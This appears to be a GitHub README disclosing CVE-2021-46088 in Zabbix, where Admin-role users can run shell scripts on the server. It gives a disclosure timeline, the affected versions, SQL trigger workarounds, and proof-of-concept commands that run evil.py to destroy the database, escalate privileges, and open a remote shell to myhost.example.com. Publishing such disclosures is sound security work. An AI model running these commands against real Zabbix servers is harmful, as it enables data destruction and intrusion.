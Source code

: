 # Zbxsec-7

## About

This repository contains a proof-of-concept of a security issue in [Zabbix](https://zabbix.com).

Any user with the "Zabbix Admin" role is able to run custom shell script on the application server in the context of the application user. The impact of this will vary, depending on OS, Zabbix version and how/which users are granted the "Zabbix Admin" role, but the users will probably have full database access and access to other secrets stored on the application server.

The issue is a "feature" that gives the "Zabbix Admin" role the ability to create actions that use remote commands and custom script. This custom script is run on the application server.

Links:

* https://www.zabbix.com/documentation/current/manual/web_interface/frontend_sections/configuration/actions
* https://www.zabbix.com/documentation/current/manual/config/notifications/action/operation/remote_command

Short history:

* The issue was reported to security@zabbix.com on July 30th, 2019 (4.2 was the newest version at this point).
* It was registered as https://support.zabbix.com/browse/ZBXSEC-7 on August 23rd, 2019.
* On Desember 10th, 2020, the Zabbix team was informed that after 90 days the issue could be posted publicly.
* The registered issue has had little activity. It was closed (and resolution set as "fixed") on Jan 29th, 2021.
* On Jan 27th, 2022, this was given CVE-ID [CVE-2021-46088](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-46088).

The issue is confirmed present in the following versions of Zabbix:

* 4.0 LTS
* 4.2
* 4.4
* 5.0 LTS

In 5.4 they've [changed the way scripts are managed](https://www.zabbix.com/documentation/current/en/manual/installation/upgrade_notes_540#central-location-for-scripts). You need to be granted access to the Administration-\>Scripts UI element. The normal Admin role does not have this access out of the box after 5.4. You may however create roles with this access and should be aware of the implication. The Super Admin role still has the ability to create custom scripts out of the box, and has the ability to damage the application-server.

This issue was just seen as "misconfiguration" by the Zabbix team, even though PoC is able to quite easily destroy the application in their own container images.

## Zabbix test instance

A test instance of Zabbix could be created with the "zabbix-simple" git submodule. It uses [podman](https://podman.io/getting-started/) and the [container images from zabbix](https://hub.docker.com/u/zabbix).

You should clone this repository with the `--recurse-submodules` argument or use `git submodule update --init` after a simple clone.

Follow the instructions in `./zabbix-simple/README.md`.

## Proof-of-concept

If you set up an instance with "zabbix-simple" you should have installed [pyzabbix](https://pypi.org/project/pyzabbix/), a user called "User" with the role "Zabbix Admin". The password of this user is the default password "zabbix".

Destroy database:

```
python evil.py --activate http://127.0.0.1:8080 User zabbix destroy-database
```

Escalation:

```
python evil.py --activate http://127.0.0.1:8080 User zabbix escalation User
```

Remote shell connecting to myhost.example.com:8000:

```
python evil.py --activate http://127.0.0.1:8080 User zabbix remote-shell myhost.example.com 8000
```

The trigger might need a few seconds/minutes to activate.

## Workaround

The only workaround I am aware of is through database triggers that prevent you from adding custom scripts.

### Postgres

```sql
CREATE FUNCTION raise_exception() RETURNS trigger AS $$
  DECLARE
    message TEXT;
  BEGIN
    message := TG_ARGV[0];
    RAISE exception '%', message;
  END;
$$ LANGUAGE plpgsql;

CREATE TRIGGER no_custom_script
BEFORE INSERT OR UPDATE ON opcommand
FOR EACH ROW
WHEN (NEW.type = 0)
EXECUTE FUNCTION raise_exception('No custom script');
```

### MySQL

```sql
DELIMITER //
CREATE TRIGGER no_custom_script_update
  BEFORE UPDATE ON opcommand
  FOR EACH ROW
BEGIN
  IF (NEW.type = 0) THEN
    SIGNAL SQLSTATE '45000' SET MESSAGE_TEXT = 'No custom script';
  END IF;
END //
CREATE TRIGGER no_custom_script_insert
  BEFORE INSERT ON opcommand
  FOR EACH ROW
BEGIN
  IF (NEW.type = 0) THEN
    SIGNAL SQLSTATE '45000' SET MESSAGE_TEXT = 'No custom script';
  END IF;
END //
DELIMITER ;
```
